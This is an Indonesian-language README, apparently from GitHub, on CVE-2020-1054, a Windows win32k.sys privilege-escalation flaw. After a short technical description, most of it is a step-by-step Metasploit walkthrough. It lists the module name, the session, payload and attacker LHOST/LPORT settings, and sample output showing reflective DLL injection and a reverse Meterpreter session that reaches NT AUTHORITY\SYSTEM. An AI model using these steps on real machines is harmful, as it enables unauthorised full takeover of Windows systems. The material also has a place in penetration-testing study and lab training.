 # CVE-2020-1054

## A. Apa itu CVE-2020-1054?

[CVE-2020-1054](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1054) adalah kerentanan Local Privilege Escalation (LPE) pada driver kernel Windows, yaitu `win32k.sys`. Kerentanan ini memungkinkan penyerang yang telah mendapatkan akses sebagai user biasa untuk mengeksekusi kode arbitrer dalam mode kernel dan memperoleh hak akses tertinggi di sistem (`NT AUTHORITY\SYSTEM`).

Eksploitasi ini terjadi karena kurangnya validasi dalam manipulasi koordinat memori pada objek `tagWND` melalui fungsi `ScrollWindowEx`, yang memungkinkan `write-what-where primitive` di kernel space. Modul eksploit di Metasploit memanfaatkan kelemahan ini melalui fungsi `DrawIconEx`.

## B. Detail Teknis:
- CVE ID: CVE-2020-1054
- Tanggal Rilis: 12 Mei 2020
- Tipe: Local Privilege Escalation (LPE)
- Komponen: win32k.sys
- Arsitektur: x86 dan x64
- Platform: Windows

## C. Sistem yang Rentan

Untuk melihat semua sistem yang rentan terhadap `CVE-2020-1054`, anda bisa melihatnya di dokumentasi resmi Microsoft: [https://msrc.microsoft.com/update-guide/en-US/advisory/CVE-2020-1054](https://msrc.microsoft.com/update-guide/en-US/advisory/CVE-2020-1054)

## D. Langkah Penggunaan di Metasploit:

1. Dapatkan Akses Awal (User Biasa):

   ```
   msf6 > sessions          # Lihat sesi yang ada
   msf6 > sessions -i 1     # Masuk ke sesi dengan ID 1
   msf6 > getuid            # Melihat user saat ini
   msf6 > sysinfo           # Informasi sistem target
   ```

2. Keluar dari Sesi Meterpreter:
   
   ```
   msf6 > background
   ```

3. Gunakan Exploit CVE-2020-1054:

   ```
   msf6 > use exploit/windows/local/cve_2020_1054_drawiconex_lpe
   ```

4. Setting Parameter Penting:

   ```
   msf6 > set SESSION <ID>
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set LHOST <IP_ATTACKER>
   msf6 > set LPORT <PORT_LISTENER>
   msf6 > set TARGET <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```

5. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] Started reverse TCP handler on 192.168.1.42:4444 
   [*] Running automatic check ("set AutoCheck false" to disable)
   [*] win32k.sys file version: 6.1.7601.17514 branch: 17
   [+] The target appears to be vulnerable.
   [*] Executing exploit...
   [*] Launching netsh to host the DLL...
   [+] Process 1204 launched.
   [*] Reflectively injecting the DLL into 1204...
   [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
   [*] Sending stage (203846 bytes) to 192.168.1.50
   [*] Meterpreter session 22 opened (192.168.1.42:4444 -> 192.168.1.50:49181) at 2025-05-14 18:38:33 +0700

   meterpreter >
   ```

   Itu artinya kita sudah mendapatkan akses tertinggi dari sistem. Untuk mengeceknya, ketikkan perintah berikut:

   ```
   meterpreter > getuid 
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > getuid 
   Server username: NT AUTHORITY\SYSTEM
   meterpreter > 
   ```

   > Keterangan: `NT AUTHORITY\SYSTEM` adalah akun tertinggi di sistem Windows itu setara dengan `root` pada sistem Linux.
